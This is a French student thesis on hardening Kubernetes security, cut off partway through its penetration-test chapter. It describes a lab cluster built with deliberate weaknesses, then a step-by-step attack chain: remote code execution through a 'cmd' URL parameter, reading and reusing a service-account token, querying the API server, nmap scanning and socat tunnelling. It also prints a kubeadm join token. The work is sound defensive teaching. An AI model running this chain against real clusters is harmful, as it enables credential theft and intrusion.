# **THEME : "RENFORCEMENT DE LA SECURITE D'UNE ARCHITECTURE KUBERNETES"**

- ## **DÉDICACE**
    Ce travail est dédié à mon père FOTSING Jean-Philippe et a ma mère SIMO Clementine, dont le soutien indéfectible et les encouragements m'ont permis de mener à bien ce projet.

- ## **REMERCIEMENTS**
    Je tiens à exprimer ma gratitude à madame SAHAR BEN YAALA, pour son soutien, ses conseils et son aide tout au long de ce projet.

    Je remercie également tous mes amis, qui m'ont accompagnee durant toutes la duree de mes etudes en Tunisie.

- ## **TABLE DES MATIÈRES**

- ## **TABLE DES FIGURES**

- ## **LISTE DES TABLEAUX**

- ## **LISTE DES ABRÉVIATIONS**
    - API : Application Programming Interface
    - CI/CD : Continuous Integration/Continuous Deployment
    - RBAC : Role-Based Access Control
    - DDoS : Distributed Denial of Service
    - etc.

- ## **INTRODUCTION GÉNÉRALE**
    L'architecture Kubernetes est devenue un standard pour le déploiement et la gestion des applications conteneurisées à grande échelle. Cependant, comme toute technologie puissante, elle présente des défis significatifs en matière de sécurité. Ce projet de fin d'études se concentre sur le renforcement de la sécurité d'une architecture Kubernetes en utilisant des méthodologies et des techniques spécifiques. L'objectif principal de ce projet est de développer une architecture Kubernetes sécurisée et d'évaluer son efficacité à travers des tests rigoureux. Pour atteindre cet objectif, nous avons adopté la méthodologie Scrum, permettant une approche itérative et incrémentale. Ce rapport est structuré comme suit : Le premier chapitre présente le projet, incluant son contexte, ses objectifs et la méthodologie de travail. Le deuxième chapitre est une revue de l'état de l'art concernant la sécurité dans les environnements Kubernetes. Le troisième chapitre décrit la mise en œuvre de l'architecture non sécurisée et les tests de pénétration effectués. Le quatrième chapitre traite de la sécurisation de l'architecture et le cinquième chapitre présente les tests et l'évaluation de cette architecture sécurisée. Enfin, nous conclurons par une discussion sur les résultats obtenus et les recommandations pour l'avenir.

- ## **CHAPITRE 1 : Présentation du Projet**
    - ### Introduction
        Dans ce chapitre, nous allons introduire le projet en détaillant son contexte et ses objectifs, ainsi que la méthodologie de travail utilisée. Ce cadre nous permettra de comprendre les motivations derrière ce projet et les étapes suivies pour atteindre les résultats escomptés.

    - ### 1.1 Contexte et Objectifs
        - #### 1.1.1 Contexte du projet
            Avec l'adoption croissante des conteneurs pour le déploiement d'applications, Kubernetes est devenu une solution de référence pour l'orchestration des conteneurs. Cependant, cette popularité s'accompagne de nombreux défis en matière de sécurité. Les environnements Kubernetes peuvent être vulnérables à diverses menaces si des mesures de sécurité adéquates ne sont pas mises en place.

            Le contexte de ce projet s'inscrit dans la nécessité de renforcer la sécurité des environnements Kubernetes pour protéger les données et les applications des entreprises contre les attaques potentielles. Nous allons explorer les vulnérabilités communes et les solutions existantes pour proposer une architecture sécurisée.

        - #### 1.1.2 Objectifs de la sécurisation de l'architecture Kubernetes
            Les objectifs de ce projet sont multiples :
            - Identifier et comprendre les vulnérabilités spécifiques à Kubernetes.
            - Mettre en place une architecture Kubernetes initiale pour servir de base de comparaison.
            - Appliquer des techniques et des outils de sécurité pour renforcer cette architecture.
            - Évaluer l'efficacité des mesures de sécurité mises en place à travers des tests de pénétration.
            - Fournir des recommandations basées sur les résultats obtenus pour améliorer continuellement la sécurité dans les environnements Kubernetes.

    - ### 1.2 Méthodologie de Travail
        - #### 1.2.1 Explication de la méthodologie Scrum et de ses principes
            Scrum est une méthodologie de gestion de projet agile qui se concentre sur la réalisation de projets complexes grâce à des itérations courtes appelées sprints. Chaque sprint dure généralement entre une et quatre semaines et produit un incrément du produit potentiellement livrable. Les principaux rôles dans Scrum incluent le Product Owner, le Scrum Master et l'équipe de développement.

            Les principes fondamentaux de Scrum incluent :
            - **Transparence** : Tous les aspects significatifs du processus doivent être visibles pour ceux responsables du résultat.
            - **Inspection** : Les utilisateurs Scrum doivent fréquemment inspecter les artefacts Scrum et l'avancement vers un objectif de sprint pour détecter des variations indésirables.
            - **Adaptation** : Si un utilisateur Scrum détecte un ou plusieurs aspects du processus qui dévient des limites acceptables, et que le produit fini sera inacceptable, il doit ajuster le processus ou le matériel en cours.

        - #### 1.2.2 Adaptation de Scrum au projet de sécurisation de l'architecture Kubernetes
            Pour ce projet, la méthodologie Scrum a été adaptée de la manière suivante :
            - **Product Owner** : Le superviseur du projet (ici, notre encadreur), responsable de la définition des priorités de sécurité et des critères d'acceptation.
            - **Scrum Master** : Le chef de projet (ici, moi), facilitant les réunions Scrum et aidant à éliminer les obstacles.
            - **Équipe de Développement** : Composée de moi uniquement, impliqué dans le projet et chargée de l'implémentation des fonctionnalités de sécurité.

            Les travaux ont été organisés en sprints de deux semaines, chaque sprint ayant des objectifs clairs liés à la sécurisation de l'architecture Kubernetes. Les réunions quotidiennes de stand-up ont permis de suivre les progrès et d'ajuster les plans si nécessaire.

    - ### Conclusion
        Ce chapitre a introduit le projet en fournissant un aperçu du contexte et des objectifs, ainsi qu'une description de la méthodologie Scrum utilisée pour structurer et gérer les travaux. Ces fondations théoriques et méthodologiques nous préparent à explorer en détail l'état de l'art de la sécurité dans les environnements Kubernetes dans le prochain chapitre.
 
- ## **CHAPITRE 2 : État de l'art**
    - ### Introduction
        Le chapitre suivant présente une revue de la littérature existante sur la sécurité dans les environnements Kubernetes. Cette revue permet de situer notre projet dans le contexte des recherches et pratiques actuelles et d'identifier les principaux défis et solutions existantes.

    - ### 2.1 Revue de la littérature sur la sécurité dans les environnements Kubernetes
        - #### 2.1.1 Études académiques et recherches
            Plusieurs études académiques et recherche ont exploré les vulnérabilités et les défis de sécurité associés à Kubernetes. C'est le cas du guide de cours, pour la certification professionnelle "Certified Kubernetes Security Specialist" elabore par **Benjamin Muschko**, permettant :
            -   d'identifier, atténuer et/ou minimiser les menaces pesant sur les applications natives du cloud et les clusters Kubernetes; 
            - apprendre les tenants et les aboutissants des fonctions de sécurité de Kubernetes et des outils externes pour la détection et l'atténuation de la sécurité; 
            - démontrer les compétences nécessaires pour assumer les responsabilités d'un administrateur Kubernetes ou d'un développeur d'applications du point de vue de la sécurité;
            - résoudre les problèmes réels de Kubernetes dans un environnement pratique, en ligne de commande.

            https://www.oreilly.com/library/view/certified-kubernetes-security/9781098132965/ 

        - #### 2.1.2 Articles et livres blancs de l'industrie
            En plus des recherches académiques, de nombreux articles et livres blancs publiés par des experts de l'industrie offrent des perspectives pratiques sur la sécurité Kubernetes. Des entreprises comme Google, Red Hat, et AWS ont publié des guides de meilleures pratiques et des études de cas détaillant les mesures de sécurité efficaces dans les environnements Kubernetes.

            Par exemple, le rapport d'etude de RedHat menée auprès de 600 professionnels du DevOps, intitulé "The state of Kubernetes security report: 2024 edition" examine certains des défis les plus courants en matière de sécurité cloud-native et les impacts commerciaux que les organisations de toutes tailles rencontrent aujourd'hui et propose des mesures que vous pouvez prendre pour renforcer la sécurité de vos environnements cloud-native.

            https://www.redhat.com/en/engage/state-kubernetes-security-report-2024

    - ### 2.2 Présentation des principaux défis et des solutions existantes
        - #### 2.2.1 Défis courants en sécurité Kubernetes
            Les principaux défis en matière de sécurité Kubernetes incluent :
            - La gestion des accès et des permissions (RBAC).
            - La sécurisation des communications réseau entre les composants.
            - La protection des données sensibles (comme les secrets).
            - La détection et la réponse aux menaces en temps réel.

        - #### 2.2.2 Solutions actuelles et meilleures pratiques
            Les solutions courantes pour relever ces défis comprennent :
            - L'utilisation de Role-Based Access Control (RBAC) pour gérer les permissions.
            - L'implémentation de politiques de réseau pour restreindre les communications entre les pods.
            - L'utilisation de Kubernetes Secrets pour stocker et gérer les informations sensibles.
            - La mise en place de systèmes de surveillance et d'audit pour détecter les comportements anormaux et réagir rapidement aux incidents de sécurité.

    - ### Conclusion
        Ce chapitre a fourni un aperçu détaillé de l'état actuel des connaissances et des pratiques en matière de sécurité Kubernetes. En identifiant les défis et les solutions existantes, nous avons établi une base solide pour la mise en œuvre pratique décrite dans les chapitres suivants.

 
- ## **CHAPITRE 3 : Mise en œuvre**
    - ### Introduction
        Dans ce chapitre, nous allons décrire la mise en œuvre de l'architecture non sécurisée, qui servira de base pour les tests de pénétration et l'évaluation de la sécurité.

    - ### 3.1 Développement de l'architecture non sécurisée
        - #### 3.1.1 Mise en place de l'architecture initiale (Master et Workers)
            L'architecture initiale que nous allons déployer se presente comme suit dans l'image suivante :

            

            Nous trouvons ci-dessous un guide étape par étape sur l'installation et la configuration de la version 1.23.7 de Kubernetes pour les nœuds maître (master) et travailleurs (worker1 & worker2).

            **PRÉ-REQUIS DANS LES TROIS MACHINES** :
            - Ubuntu 22.04, à telecharger sur le site officiel d'Ubuntu.

                https://ubuntu.com/download/desktop

            - Swap désactivé, à l'aide de la commande suivante :

                    sudo swapoff -a && sudo sed -i '/ swap /s/^/#/' /etc/fstab
            
                Pour desactiver definitivement, executer aussi:

                    systemctl --type swap
                
                puis
                
                    systemctl mask <type>.swap

            - Docker v20.10 installé, à l'aide du script suivant :

                https://github.com/rancher/install-docker/blob/master/dist/20.10.24.sh

                    sudo usermod -aG docker <current_user>

            **NOEUD MASTER** :

            - Installer les dependances
                
                    sudo apt install socat -y
                    sudo apt install conntrack -y
            
            - Ouvrir le Changelog de GitHub suivant

            https://github.com/kubernetes/kubernetes/tree/master/CHANGELOG

            - Trouver la version requise de k8s. Dans notre cas, il s'agit de 1.23 :

            

            - Cliquer sur le lien "Server Binaries" dans la section "Download for ..." de la version 1.23.7.

            
            
            - Télécharger les binaires pour l'architecture de votre processeur. Dans notre cas, pour amd64 :

            
            
                wget https://dl.k8s.io/v1.23.7/kubernetes-server-linux-amd64.tar.gz

            - Désarchiver le paquet téléchargé

                    tar -xvf ./kubernetes-server-linux-amd64.tar.gz

            - Copier tous les binaires du dossier non archivé **./kubernetes/server/bin/** vers **/usr/bin/** :

                    sudo cp `find ./kubernetes/server/bin -maxdepth 1 -type f | sed 's/^\.\///' | grep -v "\."` /usr/bin/

            - Configurer kubelet en tant qu'unité de service :

                Créer le fichier **/etc/systemd/system/kubelet.service.d/10-kubeadm.conf** avec le contenu suivant :

                    sudo mkdir /etc/systemd/system/kubelet.service.d

                

                Créer un autre fichier **/usr/lib/systemd/system/kubelet.service** avec le contenu suivant à l'intérieur :

                

                Démarrer et activer kubelet.service :

                    sudo systemctl start kubelet.service
                    sudo systemctl enable kubelet.service
            
            - Initialiser le cluster:

                    sudo kubeadm init --kubernetes-version=v1.23.7 --pod-network-cidr=10.244.235.0/24
            
            - Donner l'autorisation a l'utilisateur courant d'executer les commandes Kubernetes:

                    mkdir -p $HOME/.kube
                    sudo cp -i /etc/kubernetes/admin.conf $HOME/.kube/config
                    sudo chown $(id -u):$(id -g) $HOME/.kube/config

            - Installer un gestionnaire réseaux. Dans notre cas, nous utiliserons CALICO :

                    kubectl apply -f https://docs.projectcalico.org/v3.21/manifests/calico.yaml

            **NOEUDS WORKER 1 ET 2**

            Le processus d'installation d'un nœud de travail est exactement le même que pour le nœud maître, sauf que apres avoir demarré et activé kubelet.service, nous devons exécuter la commande fournie par **kubeadm init** du master :

                    sudo kubeadm join 192.168.115.10:6443 --token c8kswm.plvgx5h7owe18bpt --discovery-token-ca-cert-hash sha256:99db9da245c433bbb334ffdb271071f02a4ec80854545b082977fc47108db1a9

            Une fois le cluster pret, on peut le constater avec les commandes suivantes dans la machine MASTER:

                kubectl get nodes
            

                kubectl get all (ou encore kubectl get all -n default)
            

        - #### 3.1.2 Configuration des différents composants (pods, services, réseaux, etc.)
            Pour cela, nous avons configuré une architecture Kubernetes de base comprenant plusieurs pods, services, et autres, tous representés dans les image suivante : 
            
            
            
            **NB:** Les configurations initiales suivantes des différents composant n'incluent aucune mésure de sécurité spécifique, afin de servir de référence pour les améliorations ultérieures.

            - Elements dans les namespace propres a l'installation de Kubernetes

                Dans ces namespaces, comme par example le namespace **kube-system**, nous n'avons rien a configurer, car tout se fait automatiquement lors de l'installation du cluster.

                    kubectl get all -n kube-system
                

            - Eléments dans le namespace de déploiement (**deploy**)

                Tout d'abord, nous configurons le namespace **deploy**. Cela créera le namespace et liera tous les comptes de service de cet espace de noms à la politique de sécurité restreinte du pod.
                
                Le contenu du fichier est le suivant:

                

                La commande suivante permet de créer le namespace deploy :

                    kubectl apply -f ns_deploy.yaml
                
                
                
                NB: Apres avoir deployé tous les élements de ce namespace, nous changerons le label **pod-security.kubernetes.io/enforce** pour lui donner la valeur **restricted**, afin d'appliquer une politique de securite aux pods qui y sont deployés.

                Ensuite, nous créons le compte de service (Service Account) **wordpress** dans le namespace de deploiement. Cela introduira également une vulnérabilité dans la mesure où nous autoriserons ce compte de service à effectuer une grande variété d'actions au sein de l'espace de noms spécifique. Il s'agit d'une hypothèse assez courante mais, comme nous le montrerons, elle peut permettre à un attaquant d'élargir le rayon d'action d'un exploit.

                Le contenu du fichier est le suivant :

                

                La commande suivante permet de créer le compte de service **wordpress**, ainsi que le role **allow_pod_read** permettant d'effectuer une variété d'actions:

                    kubectl apply -f sa_wordpress.yaml -n deploy
                
                
                
                NB: Le rolebinding **allow_pod_read_bind** permet de relier le compte de service précédent au role précédent.

                Ensuite, nous introduisons une deuxième vulnérabilité, permettant à cet utilisateur (SA) d'interroger les points d'extrémité du serveur API. Là encore, il ne s'agit pas nécessairement d'un problème évident, mais cela permettra à un attaquant d'obtenir des informations supplémentaires sur le cluster.

                Le contenu du fichier est le suivant:

                

                La commande suivante permet, comme defini dans le fichier precedent, de créer un nouveau role **allow_endpoint_access** et le lier au compte de service **wordpress**.

                    kubectl apply -f allow_to_see_endpoints.yaml

                
                
                Nous allons maintenant déployer l'application vulnérable dans le namespace deploy sécurisé.

                Le contenu du fichier est le suivant:

                

                La commande suivante permet d'appliquer le fichier precedent et créer le deploiement dans le namespace sécurisé.

                    kubectl apply -f wordpress_deployment.yaml -n deploy
                
                
                    
                Nous pouvons voir le pod fonctionner dans le namespace sécurisé :
                        
                    kubectl get all -n deploy
                
                
                Maintenant que l'application vulnérable fonctionne, nous l'exposons en dehors du cluster. Pour cela, nous avons besoin d'un Service de type NodePort, et de la commande suivante :

                    kubectl expose deployment wordpress -n deploy --type=NodePort --port=5000
                

                À ce stade, nous pouvons afficher l'application vulnérable dans le navigateur d'une machine externe au cluster, en renseignant le port **31411**.

                

                Maintenant, nous devons modifier le namespace deploy, afin de mettre le label sur **restricted**.
                
                    kubectl edit ns deploy

                

                

                Nous pouvons constater un **AVERTISSEMENT**, sur le fait qu'un pod ne respecte pas la politique de securite du namespace deploy, ce qui est necessaire pour les prochaines etapes de ce projet.

            - Eléments dans le namespace par defaut (**default**)

                A ce niveau, nous allons configurer le namespace par défaut et autoriser les comptes de service (sa) de ce namespace à accéder à la stratégie de sécurité Pod privilégiée. Là encore, il s'agit d'une vulnérabilité, basée sur l'hypothèse que nous contrôlons les autres namespace avec des liaisons de rôles spécifiques au namespace.

                Le contenu du fichier est le suivant:

                

                La commande suivante permet d'appliquer le fichier précédent:

                    kubectl apply -f ns_default_role.yaml
                
                                
                Ensuite, nous ajoutons le même compte de service et les mêmes rôles que dans notre espace de noms sécurisé :

                    kubectl apply -f sa_wordpress.yaml

                Nous ajoutons maintenant une instance de l'application vulnérable à l'espace de noms par défaut :
                    
                    kubectl apply -f wordpress_deployment.yaml

                Cela nous donne une configuration miroir dans le namespace par défaut que nous avons dans le namespace sécurisé deploy, mais par défaut nous n'appliquons pas la politique de sécurité restreinte du pod.

                    kubectl get all
                

    - ### 3.2 Test de pénétration de l'architecture non sécurisée
        - #### 3.2.1 Simulation d'attaques courantes
            Pour évaluer la sécurité de l'architecture non sécurisée, nous avons simulé une unique chaine complete d'attques, repartie en sept etapes, comprennant plusieurs types d'attaques, exploitant des vulnerabilites courantes.

            **a- Examen de la vulnérabilité**

            Lorsqu'on ouvre l'application vulnérable dans notre navigateur à l'adresse http://192.168.115.10:31411, on arrive sur la page d'accueil de l'application. Mais en faisant une recherche poussée sur le site web, on constate qu'on a une seconde page web a l'adresse http://192.168.115.10:31411/seckube, qui exploite la vulnérabilité RCE (Remote Code Execution) en passant un paramètre URL **cmd**. 
            
            
            
            Par exemple, l'url suivante exécute la commande **hostname** et affiche la sortie de la console sur la page retournée : http://192.168.115.10:31411/seckube?cmd=hostname

            

            Ceci prouve bien que le RCE fonctionne, alors utilisons-le pour obtenir des informations plus intéressantes. Remplacons le paramètre cmd par env pour imprimer les variables d'environnement des processus : http://192.168.115.10:31411/seckube?cmd=env

            

            En se basant sur les différents noms de variables commençant par KUBERNETES, il est assez sûr de supposer que ce processus s'exécute dans un conteneur, sur un cluster Kubernetes. De plus, étant donné que la commande hostname a retourné un nom préfixé par wordpress, la variable WORDPRESS_SERVICE_PORT=5000 signifie probablement qu'il y a un service Kubernetes qui écoute en interne sur le port 5000 et qu'une sorte de proxy qui traduit notre demande de port 31411 vers ce port. Enfin, la variable KUBERNETES_PORT=tcp://10.96.0.1:443 nous indique que l'adresse IP et le port internes de l'api-serveur Kubernetes sont 10.96.0.1:443.

            La prochaine information que nous voulons obtenir est l'adresse IP du pod dans lequel nous nous exécutons, alors lançons hostname -i : http://192.168.115.10:31411/seckube?cmd=hostname%20-i

            

            **b- Accès au serveur api**

            Chaque Pod Kubernetes dispose par défaut d'un jeton de service associé à son ServiceAccount. Par défaut, ce jeton est monté automatiquement dans chaque Pod dans le chemin **/var/run/secrets/kubernetes.io/serviceaccount/token**. Utilisons le RCE pour essayer d'imprimer ce jeton à l'aide de la commande **cat** : http://192.168.115.10:31411/seckube?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token

            

            Nous avons maintenant le jeton Pod, nous avons donc des informations d'identification avec lesquelles nous pouvons jouer. Cela peut être utilisé pour nous aider à explorer d'autres endroits dans le cluster.

            Voyons maintenant si nous disposons d'une sorte d'outil que nous pouvons utiliser pour effectuer des appels web via notre RCE. Voyons si nous disposons de **curl** : http://192.168.115.10:31411/seckube?cmd=curl%20google.com

            

            On peut constater que nous avons bien access a l'outil curl.

            Ensuite, nous allons prendre tout ce que nous avons trouvee dans le conteneur et l'appliquer pour en sortir. Nous allons utiliser **curl** et le **token credential** pour essayer de nous connecter au serveur api de Kubernetes et lui demander les endpoints du cluster. Les détails de la connexion sont les suivants :

            - **Host** : la valeur de la variable KUBERNETES_PORT
            - **URI (identifiant uniforme de ressource)** : ici **endpoints**, dans le namespace par defaut, a l'emplacement **/api/v1/namespaces/default/endpoints**
            - **En-tête** : Un **Authorization: Bearer** contenant le contenu du fichier de jeton trouvee plus haut
            - **CA Cert** : Le certificat de l'autorité de certification qui, nous pouvons le supposer, se trouve dans l'emplacement par défaut, au même endroit que notre fichier de jetons, et s'appelle ca.crt.

            L'URL est le suivant : http://192.168.115.10:31411/seckube?cmd=curl%20--cacert%20/var/run/secrets/kubernetes.io/serviceaccount/ca.crt%20-H%20%22Authorization:%20Bearer%20$(cat%20/var/run/secrets/kubernetes.io/serviceaccount/token)%22%20https://10.96.0.1/api/v1/namespaces/default/endpoints

            

            Cette commande aboutit et la section qui nous interresse est :

                    "subsets": [
                      {
                        "addresses": [
                          {
                            "ip": "192.168.115.10"
                          }
                        ],
                        "ports": [
                          {
                            "name": "https",
                            "port": 6443,
                            "protocol": "TCP"
                          }
                        ]
                      }
                    ]
            
            **c- Recherche de faits sur le cluster**

            Nous voulons pouvoir utiliser kubectl pour accéder directement au cluster au lieu d'avoir à utiliser l'URL RCE encombrante. Pour ce faire, nous allons copier le contenu du jeton de http://192.168.115.10:31411/seckube?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token dans le fichier de configuration kubectl. 

            Pour creer le fichier de configuration, nous nous servons du script suivant :

            

            Ce script permet de definir un nouvel utilisateur kubernetes nommee **seckube** avec son **TOKEN**, un nouveau cluster nommee **exploited**, creer un nouveau context nommee **exploited**, et de definir le context **exploited** comme celui par defaut.

            Lors de l'execution du script, il nous demande les informations suivantes, pour pouvoir se connecter au cluster distant :

            - Entrer le jeton : coller le contenu complet du jeton
            - Enter l'hote de l'API kubernetes : ici 192.168.115.10:6443.

            NB: Nous avons telecharger le binaire **kubectl** en suivant la meme procedure que lors du processus d'installation de kubernetes.

            

            Apres l'execution du script, nous obtenons le fichier suivant :

            

            Vérifions que le contexte est défini en exécutant la commande suivante : 
            
                kubectl config current-context 
            
            Il retourne **exploited**.

            Si cela ne fonctionne pas, il se peut que nous n'ayons pas defini la variable d'environnement **KUBECONFIG**. Pour résoudre ce problème, exécutons simplement la commande suivante : 
            
                export KUBECONFIG=kubeconfig 
            
            ou alors, executons cette commande : 
            
                kubectl config --kubeconfig=kubeconfig current-context

            

            Avec notre contexte kubectl maintenant défini, essayons d'accéder au cluster en exécutant la commande suivante :
            
                kubectl get pods
            
            

            L'erreur **Forbidden** que nous voyons ci-dessus nous indique simplement que le ServiceAccount que nous utilisons via le jeton n'a pas les privilèges suffisants pour lister les Pods dans le Namespace par défaut. Cette erreur, cependant, révèle quelque chose d'utile dans la valeur de l'utilisateur : **system:serviceaccount:deploy:webadmin**. Cette chaîne contient le nom de l'espace de nom dans lequel se trouve le ServiceAccount : **deploy**. Ainsi, le Pod à partir duquel nous avons copié le jeton s'exécute dans un espace de nom nommé "deploy".

            Compte tenu de ces informations, essayons de lister les Pods dans l'espace de nom deploy en ajoutant **-n deploy** à la commande :

                kubectl get pods -n deploy

            

            Succès ! C'est le pod que nous avons attaqué avec notre exploit RCE.

            Voyons quels autres privilèges ce jeton nous donne acces via la commande suivante :
            
                kubectl auth can-i --list

            

            Cela montre que, dans l'espace de noms par défaut, nous avons accès à tous les verbes (*) de la ressource endpoints et à un accès limité à d'autres ressources de type boilerplate qui ne sont pas intéressantes pour le moment (supprimées de l'exemple pour des raisons de concision.) L'absence de ressource pods ici est la raison pour laquelle nous avons obtenu cette erreur "Forbidden" lors de la première tentative de get pods dans l'espace de noms par défaut.

            Essayons la même commande dans l'espace de nom deploy: 
            
                kubectl auth can-i --list -n deploy
            
            

            Nous voyons ici le caractère générique **toutes les ressources (*.*)** avec l'ensemble de tous les verbes, ce qui signifie que nous avons un accès complet à toutes les ressources de l'espace de nom deploy !

            Nous savons maintenant que nous pouvons faire un certain nombre de choses dans l'espace de noms deploy, et pas grand-chose par défaut.

            **d- Établir une tête de pont dans le cluster**

            Maintenant que nous avons des permissions dans le namespace deploy, nous allons escalader nos privilèges pour pénétrer dans d'autres zones du cluster.

            Tout d'abord, exécutons le Pod wordpress et voyons ce qui est disponible pour nous. 

                kubectl exec -n deploy -it wordpress-<id_pod> -- bash

            

            Maintenant que nous avons un shell dans le Pod, voyons si nous sommes (ou pouvons devenir) root. Vérifions notre utilisateur avec **whoami** :

            

            Nous ne somme pas root, mais voyons si on peut devenir root avec la commande suivante: 
            
                sudo su-

            

            Pas de sudo. Cela nous indique que l'image est mieux construite que la plupart des images par défaut, car les auteurs ont pris le temps de passer à un utilisateur non root et n'utilisent pas sudo.

            Voyons si nous pouvons modifier le système de fichiers : 
            
                touch test
            
            

            Nous pouvons écrire dans le système de fichiers racine, ce qui signifie que nous pouvons télécharger un logiciel ou modifier une configuration. Nous savons déjà que nous avons curl, donc c'est tout à fait possible. Il s'agit d'une vulnérabilité, causée par le fait de ne pas définir **readonlyRootFilesystem=true** dans le contexte de securite du pod et de ne pas l'appliquer dans le **PSP (Pod Security Policy)**.

            Bien que cela soit intéressant, il sera difficile d'élever les privilèges à la racine dans le Pod, alors quittons la session exécutive, et passons à autre chose pour l'instant.

            Essayons de lancer un pod avec un utilisateur root en utilisant le fichier suivant, qui consiste en un conteneur exécutant l'image alpine qui dort simplement mais s'exécute en tant que root par défaut.

            

                kubectl apply -f root_pod.yaml

            

            L'erreur montre que plusieurs violations de **PodSecurity (PSP)** ont été détectées, ce qui indique que la PSA (Pod Security Admission) est activée. Sur la base des règles spécifiques citées, il s'agit probablement d'une politique restreinte (restricted) du contexte de securite du Pod. Cela empêche également le démarrage d'un conteneur privilégié.

            Compte tenu des restrictions imposées par le PSA, essayons de déployer notre propre pod à l'aide d'une image de conteneur et d'outils qui nous aideront à explorer le cluster. Le fichier suivant est un Pod qui exécute notre conteneur avec les paramètres de contexte de securite appropriés pour satisfaire la PSA.

            

                kubectl apply -f nonroot_nonpriv_restricted.yaml -n deploy
            
            

            Nous allons maintenant exécuter notre nouveau Pod et voir ce que nous pouvons faire : 
            
                kubectl exec -n deploy -it snyky -- bash
            
            

            Cette image contient sudo, mais malgré ce que dit l'invite de connexion, si nous essayons d'exécuter **sudo ls**, nous obtenons l'erreur suivante :

                sudo ls

            

            En effet, les paramètres securityContext du manifeste Pod sont définis sur **allowPrivilegeEscalation : false** pour satisfaire la PSA.

            À ce stade, nous n'avons pas d'accès root au Pod, mais nous disposons d'un shell dans un conteneur qui nous donne notre point de départ.

            **e- Explorer au-delà de notre espace de noms**

            Maintenant que nous possédons un conteneur dans le cluster, nous allons l'utiliser pour explorer davantage le cluster et essayer de trouver d'autres cibles. Puisque nous savons que le cluster héberge une application vulnérable en production, il y a de fortes chances que d'autres instances de cette application tournent ailleurs et puisqu'elle a été déployée avec un service sur le port 5000, il y a de fortes chances que la même configuration de déploiement soit utilisée.
            
            Pour ce faire, nous utiliserons l'outil nmap pour scanner le réseau à la recherche d'autres copies de cette application vulnérable en recherchant tout ce qui accepte des connexions sur le port 5000.

            Tout d'abord, tout en étant toujours exécuté dans le Pod snyky depuis les étapes précédentes, découvrons l'adresse IP de notre Pod. Il y a plusieurs façons de le faire : **hostname -i** ou **ifconfig** fonctionnent tous les deux ici

            

            Nous allons maintenant utiliser cette IP dans les arguments de nmap pour spécifier le réseau Pod : 
            
                nmap -sT -p 5000 -PN -n --open 10.244.235.66/24

            

            Ce que nous voyons, c'est qu'il y a deux adresses IP qui écoutent sur le port 5000 :
            
            - 10.244.235.65: Il s'agit d'autre chose... peut-être une autre copie de l'application vulnérable ?
            - 10.244.235.129: Il s'agit du pod original que nous avons attaqué dans le namespace deploy.
            
            NB : Comme nous ne sommes pas l'utilisateur root, nous avons dû utiliser un scan de connexion TCP (option -sT) ; c'est une opération assez "bruyante" qui pourrait déclencher une détection d'intrusion et des tentatives de connexion enregistrées sur d'autres hôtes. Si nous etions root, l'analyse TCP SYN plus furtive (option -sS) serait préférable, mais elle nécessite des privilèges et/ou des capacités élevés.

                nmap -sS -p 5000 -PN -n --open 10.244.235.66/24
            
            

            **f- Échapper à notre espace de noms**

            Maintenant que nous savons qu'il existe un autre listener sur le port 5000 dans un autre namespace, nous allons utiliser un simple tunneling TCP pour l'attaquer.

            Dans le shell exec toujours ouvert depuis l'étape précédente, nous allons utiliser l'outil **socat** pour créer un tunnel vers ce nouvel auditeur : 
            
                socat tcp-listen:5001,reuseaddr,fork tcp:10.244.235.65:5000

            Cette commande laissera le Shell du conteneur SNYKY en suspend.

            Dans un nouveau shell, définissons notre variable de configuration Kubernetes et créons un **port-forward** dans le pod snyky :

